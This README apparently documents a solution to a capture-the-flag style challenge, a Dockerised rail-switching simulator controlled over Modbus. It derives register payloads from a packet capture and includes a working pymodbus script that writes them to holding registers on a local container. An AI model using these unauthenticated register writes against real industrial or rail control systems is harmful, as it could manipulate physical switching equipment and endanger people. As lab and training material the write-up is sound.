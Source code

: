 # Exploraion 

## train 
<img src="./pictures/20240427_050341.jpg" width="500" height="600"> 

## File
- `Dockerfile` and `insomniTrainSim` use for poc in local 
- `train_guide.txt` general infomation of rail switching
- `insomniTrains.pcap` example of interaction with insomniTrainSim

## Protocol
find in the `insomniTrains.pcap` the Protocol for the communicate to the `insomniTrainSim` is [Modbus](https://en.wikipedia.org/wiki/Modbus) 

### function use in example
- Read Holding Registers (3)
- Write Multiple Registers (16)

### Write Registers in example
I identified three paloads which are four writings of three registers `1001`, `1002`, `1003`
```python
paload1 = [
    [17201, 21297, 12336],
    [21332, 21297, 12336],
    [17202, 21297, 12336],
    [21317, 21297, 12336],
]

paload2 = [
    [17201, 21299, 12336],
    [21332, 21299, 12336],
    [17202, 21299, 12336],
    [21317, 21299, 12336],
]

paload3 = [
    [17201, 21297, 12337],
    [21332, 21297, 12337],
    [17202, 21297, 12337],
    [21317, 21297, 12337],
]
```

# POC 

## run simulation
```sh 
$ docker buildx build --tag trains .
$ docker run -it trains:latest
Simulating InsomniTrains...

1. Understand insomniTains.pcap

2. Craft your payload and send

3. Read starting at 1016 to check your solution!

Have fun!

```
you must therefore read the register `1016` and the value must only be `TRY HARDER`, at first I didn't understand that these were two `char`

## solution for the simulation
I used the python module [pymodbus](https://pymodbus.readthedocs.io/en/latest/) 
```python
from pymodbus.client import ModbusTcpClient
import time


def sendPaload(paload):
    for value in paload:
        client.write_registers(1001, value, slave=0)
        time.sleep(0.1)

    result = client.read_holding_registers(
        1016, 1, slave=0
    )  # get information from device
    print(result.registers)  # use information
    print(result.bits)  # use information
    time.sleep(0.1)


client = ModbusTcpClient("172.17.0.2")  # Create client object
client.connect()  # connect to device, reconnect automatically

client.write_registers(1001, [17201, 21292, 12336], slave=0)
result = client.read_holding_registers(1016, 1, slave=0)  # get information from device
print(result.registers)  # use information
print(result.bits)  # use information
paload1 = [
    [17201, 21297, 12336],
    [21332, 21297, 12336],
    [17202, 21297, 12336],
    [21317, 21297, 12336],
]

paload2 = [
    [17201, 21299, 12336],
    [21332, 21299, 12336],
    [17202, 21299, 12336],
    [21317, 21299, 12336],
]

paload3 = [
    [17201, 21297, 12337],
    [21332, 21297, 12337],
    [17202, 21297, 12337],
    [21317, 21297, 12337],
]
print("paload1")
sendPaload(paload1)
print("paload2")
sendPaload(paload2)
print("paload3")
sendPaload(paload3)
print("paload3")
sendPaload(paload3)
result = client.read_holding_registers(1016, 1, slave=0)  # get information from device
print(result.registers)  # use information
print(result.bits)  # use information
client.close()  # Disconnect device
```
after several executions of the script I saw that the value of register `1006` had changed from `21586` to `18255`

### Identify the correct payload

the good payload is 
```python
paload3 = [
    [17201, 21297, 12337],
    [21332, 21297, 12337],
    [17202, 21297, 12337],
    [21317, 21297, 12337],
]
```

### Check if the simulation is resolved 
run `read1016.py` after `5` seconds
